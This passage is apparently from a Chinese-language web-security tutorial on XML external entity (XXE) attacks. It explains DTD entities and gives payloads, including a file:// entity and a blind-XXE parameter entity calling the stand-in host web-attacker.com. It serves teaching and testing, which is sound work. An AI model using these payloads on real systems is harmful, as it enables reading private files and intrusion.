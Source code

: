 XML 文档类型定义 (DTD) 包含可以定义 XML 文档的结构、它可以包含的数据值的类型以及其他项的声明。 DTD 在 XML 文档开头的可选 `DOCTYPE` 元素中声明。 DTD 可以完全独立于文档本身（称为“内部 DTD”），也可以从其他地方加载（称为“外部 DTD”），也可以是两者的混合。

### 什么是 XML 自定义实体 ? <a href="#what-are-xml- custom-entities" id="what-are-xml-custom-entities"></a>

XML 允许在 DTD 中定义自定义实体。例如：

`<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>`

此定义意味着在 XML 文档中对实体引用 `&myentity;` 的任何使用都将替换为定义的值：“`my entity value`”。

### 什么是 XML 外部实体? <a href="#what-are-xml-external-entities" id="what-are-xml-external-entities"></a>

XML 外部实体是一种自定义实体，其定义位于声明它们的 DTD 之外。

外部实体的声明使用 `SYSTEM` 关键字，并且必须指定应从其加载实体值的 URL。例如：

`<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>`

同时也可以使用 `file://` 协议, 外部实体可以从文件中加载。 例如:

`<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>`

XML external entities provide the primary means by which [XML external entity attacks](https://portswigger.net/web-security/xxe) arise.

### 什么是 XML 参数实体?


有时，由于应用程序的某些输入验证或正在使用的 XML 解析器的某些强化，使用常规实体的 XXE 攻击会被阻止。在这种情况下，您可以改用 XML 参数实体。 XML 参数实体是一种特殊的 XML 实体，只能在 DTD 的其他地方引用。就目前而言，您只需要知道两件事。首先，XML 参数实体的声明包括实体名称前的百分号字符：

`<!ENTITY % myparameterentity "my parameter entity value" >`

其次，使用百分比字符而不是通常的 & 符号来引用参数实体：`%myparameterentity;`

这意味着您可以通过 XML 参数实体使用带外检测来测试盲 XXE，如下所示：

`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

这个 XXE 有效负载声明了一个名为“xxe”的 XML 参数实体，然后使用 DTD 中的实体。这将导致对攻击者域的 DNS 查找和 HTTP 请求，验证攻击是否成功。

## 主要攻击

[Most of these attacks were tested using the awesome Portswiggers XEE labs: https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)

### 实体测试

测试一个简单的实体声明是否有效

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace "3"> ]>
<stockCheck>
    <productId>&toreplace;</productId>
    <storeId>1</storeId>
</stockCheck>
```
